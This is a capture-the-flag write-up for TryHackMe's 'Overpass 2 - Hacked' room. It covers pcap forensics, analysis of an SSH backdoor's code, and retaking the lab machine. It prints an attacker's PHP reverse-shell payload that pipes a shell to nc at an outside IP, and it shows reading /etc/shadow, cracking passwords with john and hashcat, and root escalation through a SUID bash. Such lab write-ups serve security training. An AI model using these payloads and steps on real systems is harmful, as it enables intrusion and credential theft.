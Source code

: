 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: https://tryhackme.com/room/overpass2hacked

## Tools 

1. 

##  Forensics - Analyse the PCAP

1. Download `overpass2.pcapng`.
2. Check and match `md5sum` of the file to verify file.
```bash
md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```
3. We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
4. With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
5. Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
6. With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
7. Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
8. Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
9. Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
10. We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
11. Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
12. Then we can run john to check.
```bash
john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
13. Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code
1. We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
2. Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
3. Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
4. Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
5. As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.
```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```
6. Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

1. Start Machine to get IP.
2. Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
3. We have repeat attackers steps. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password. We need to use `-oHostKeyAlgorithms=+ssh-rsa` to get ssh as there is an error.
```bash
ssh -p 2222 james@10.10.136.126
Unable to negotiate with 10.10.136.126 port 2222: no matching host key type found. Their offer: ssh-rsa
$ ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.136.126 -p 2222
The authenticity of host '[10.10.136.126]:2222 ([10.10.136.126]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.136.126]:2222' (RSA) to the list of known hosts.
james@10.10.136.126's password: *******
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```
4. Question `What's the user flag?` Answer `thm{****************}`
```bash
james@overpass-production:/home/james/ssh-backdoor$ cat /home/james/user.txt
thm{****************}
```
5. By using SUID find command `find . -perm /4000` we got a unusual file `/home/james/.suid_bash`. We can get suid exploit for it here https://gtfobins.github.io/gtfobins/bash/#suid
6. Question `What's the root flag?` Answer `thm{***************************}`
```bash
james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt 
thm{***************************}
```

Author: Zishan Ahamed Thandar
